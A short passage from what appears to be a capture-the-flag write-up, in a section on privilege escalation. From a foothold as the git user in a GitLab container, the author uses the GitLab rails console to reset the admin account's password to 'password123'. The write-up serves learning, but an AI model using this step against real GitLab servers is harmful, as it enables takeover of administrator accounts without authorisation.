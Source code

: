 <img src="foothold.png">

---

# <p style="color:RED">User PrivEsc </p>

So now we're on a docker container as the **git** user!
The trick now is to change the gitlab's admin (who is id=1) password

Going through gitlab's docs to get the right syntax
https://docs.gitlab.com/ee/security/reset_user_password.html

It may take a while to run
```bash
gitlab-rails console -e production
```
```ruby
user = User.find(1)
user.password = 'password123'
user.password_confirmation = 'password123'
user.save!
```
<img src="dexterpass.png">
